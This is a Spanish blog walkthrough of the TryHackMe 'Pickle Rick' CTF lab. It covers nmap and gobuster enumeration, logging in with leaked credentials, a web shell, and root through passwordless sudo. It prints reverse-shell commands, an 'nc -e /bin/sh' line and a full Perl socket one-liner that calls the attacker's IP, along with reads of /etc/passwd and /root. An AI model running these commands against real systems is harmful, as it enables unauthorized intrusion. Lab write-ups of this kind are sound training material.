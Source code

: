 ```yaml
---
layout: single
title: Pickle Rickkkk - Try Hack me
excerpt: "Pickle rick, maquina Linux basada en Dirbuster y linux, este es mi primer reto
          CTF, ¡vamos a ver la solución del mismo!"
date: 2021-11-03
classes: wide
header:
  teaser: /assets/images/thm-picklerick/1.png
  teaser_home_page: true
  icon: /assets/images/thm.webp
categories:
  - TryHackMe
  - CTF
tags:  
  - Linux
  - CTF
  - Dirbuster
  - Easy
  
---
```


![](/assets/images/thm-picklerick/1.png)

Pickle rick, maquina Linux basada en Dirbuster y linux, este es mi primer reto
CTF, ¡vamos a ver la solución del mismo!

## Fase de enumeración

Vamos a hacer un escaneo de puertos con Nmap. Nmap -sC -ssV 10.10.104.37 -o PortsNmap

Además vamos a ejecutar un escaneo de directorios con Nmap → nmap –script http-enum 10.10.104.37 -Pn

-sC -sV → Usar scripts más comunes y mostrar versiones, -o Guardar escaneo en archivo.

![](/assets/images/thm-picklerick/2.png)

Vemos que tenemos dos puertos abiertos el 80 y el 22 , intuyo que al ser una maquina sencilla y basada en linux y dirbuster no creo que sea necesario probar ssh.

Además Nmap a logrado darnos dos directorios interesantes lo cual refuerza mi intuición anterior.

Ahora vamos hacer uso de la herramienta gobuster para busqueda de directorios, usaremos el comando: gobuster dir -u http://10.10.104.37 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php.html.txt 

-Hacemos uso de la wordlist y filtramos con el comando -x por .php .html y .txt

![](/assets/images/thm-picklerick/3.png)

Parece que gobuster no nos va a facilitar mucha más información, así que voy a cortarlo y vamos directamente a la pagina web.

## Fase de explotación

-Una vez en la web vemos esto:

![](/assets/images/thm-picklerick/4.png)

A simple vista no vemos nada interesante, pero siempre hay que mirar el código fuente y el wappalyzer.

![](/assets/images/thm-picklerick/5.png)

Vemos que en la pagina de inicio tenemos un posible nombre de usuario: R1ckRul3s

Ahora vamos a indagar por los siguientes directorios que conocemos. (robots.txt / login.php / assets)

Recordamos siempre mirar en cada apartado el código fuente y el wappalyzer

En robots.txt Nos encontramos con una posible contraseña. Wubbalubbadubdub

![](/assets/images/thm-picklerick/6.png)

En assets encontramos los archivos de la página.

![](/assets/images/thm-picklerick/7.png)

En el apartado login.php , encontramos un login vamos a probar con las credenciales previamente encontradas: User: R1ckRul3s , Pass: Wubbalubbadubdub 

![](/assets/images/thm-picklerick/8.png)

Y conseguimos acceso a este portal.php

![](/assets/images/thm-picklerick/9.png)

Si hacemos un whoami por ejemplo , vemos que estamos frente a una web shell, podríamos probar a hacer una reverse shell y traernosla directamente a neuestro equipo local, o podriamos empezar a introducir comandos como , ls -lia , whoami , id… Ir buscando entre archivos y directorios cosas interesantes.

![](/assets/images/thm-picklerick/10.png)

Vemos que ya vemos varias cosas interesantes como los .txt , viendo que los tiros van a ir todos por aquí vamos a intentar obtener directamente una reverse shell en nuestro equipo para trabajar con más comodidad. Con el comando ‘whereis’ vamos a comprobar si tiene instalado por ejemplo netcat para obtener una revershell de manera sencilla, En la maquina objetiva introducimos el comando ‘nc -e /bin/sh 10.9.3.248 4444’ y en nuestro equipo nos ponemos en escucha con el comando nc -lvnp 4444 , ejecutamos y vemos que no ganamos acceso, parece que algo esta capado, Vamos a investigar por google y nos encontramos con esta página: Web y ahora probaremos con:
 
``` 
perl -e 'use Socket;$i="10.9.3.248";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

y nosotros estaremos en escucha: nc -lvnp 4444 , conseguimos acceso.

![](/assets/images/thm-picklerick/11.png)

Ahora vamos a ver el contenido de los archivos .txt

![](/assets/images/thm-picklerick/12.png)

Vemos que conseguimos la primera flag y el otro archivo nos indica que busquemos dentro de los archivos del sistema para conseguir los otros ingredientes.

Vamos a probar principalmente a listar los contenidos de / etc / passwd , listar contenidos de /home y /root

![](/assets/images/thm-picklerick/13.png)

Vemos que en / etc / passwd , no encontramos nada interesante , ningun usuario extraño…

Ahora vamos a mirar en los usuarios de /home

![](/assets/images/thm-picklerick/14.png)

Bingo, encontramos el directorio del usuario rick y una vez dentro obtenemos un .txt del segundo ingrediente y conseguimos la segunda flag.

Por último vamos a mirar el directorio /root para ver que encontramos 

![](/assets/images/thm-picklerick/15.png)

Vemos que no nos pide contraseña para usar el super usuario, asi que listamos el contenido y vemos un archivo que aparentemente podría ser nuestra última flag y efectivamente, conseguimos las 3 flags y Rick volvera a ser humano.

![](/assets/images/thm-picklerick/16.png)

